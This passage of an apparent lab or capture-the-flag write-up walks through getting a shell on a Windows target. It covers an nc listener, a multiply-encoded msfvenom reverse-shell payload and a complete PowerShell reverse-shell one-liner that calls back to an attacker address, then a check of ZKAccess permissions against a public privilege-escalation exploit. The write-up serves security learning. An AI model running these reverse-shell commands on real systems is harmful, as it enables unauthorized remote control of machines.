 -   **Start my nc listener on my attack host**:
    -   `nc -nvlp 9999`

-   **Trigger nc on the target to connect back**:
    -   Annnnnnnnnd we are blocked by group policy! Sneaky admins.
        -   {{< figure src="/ox-hugo/2024-09-10-120536_.png" >}}

-   **Lets try a super encoded shell**:
    -   `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.44 LPORT=9999 -a x86 --platform windows -e x86/shikata_ga_nai -i 100 -f raw | msfvenom -a x86 --platform windows -e x86/countdown -i 200 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -f exe -o newshell1.exe`
        -   **BLOCKED AGAIN!**
            -   {{< figure src="/ox-hugo/2024-09-10-122626_.png" >}}

-   We can assume that anything not on a strict "allow" list is blocked by Group Policy. So let's switch gears and just live off the land with good ol' powershell.

-   **Simple Powershell reverse shell**:
    -   Finally we get a connection with the below, I have this saved into my notes as a goto but if you are unfamiliar you can also generate it with:
        -   <https://www.revshells.com/>
            ```powershell
                powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.44',9999);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
            ```
        -   {{< figure src="/ox-hugo/2024-09-10-125803_.png" >}}


### ZTeko Enumeration: {#zteko-enumeration}

-   I find a file folder called `ZKTeco` in the root folder.
    -   {{< figure src="/ox-hugo/2024-09-10-114513_.png" >}}

-   It appears to contain a copy of a program called `ZKAccess3.5`
    -   {{< figure src="/ox-hugo/2024-09-10-114619_.png" >}}

-   A quick search turns up this public exploit:
    -   <https://www.exploit-db.com/exploits/40323>

> Desc: ZKAccess suffers from an elevation of privileges vulnerability
> which can be used by a simple authenticated user that can change the
> executable file with a binary of choice. The vulnerability exist due
> to the improper permissions, with the 'M' flag (Modify) for 'Authenticated Users'
> group.

-   I check the permissions to see if it's vulnerable:
    -   {{< figure src="/ox-hugo/2024-09-10-175706_.png" >}}

-   It's not, we are missing the `"M"` flag for `modify` for any of the users groups.
    -   {{< figure src="/ox-hugo/2024-09-10-175906_.png" >}}
    -   So it appears this is not vulnerable to this specific exploit but I will put a pin in it, incase we can somehow leverage it later on.
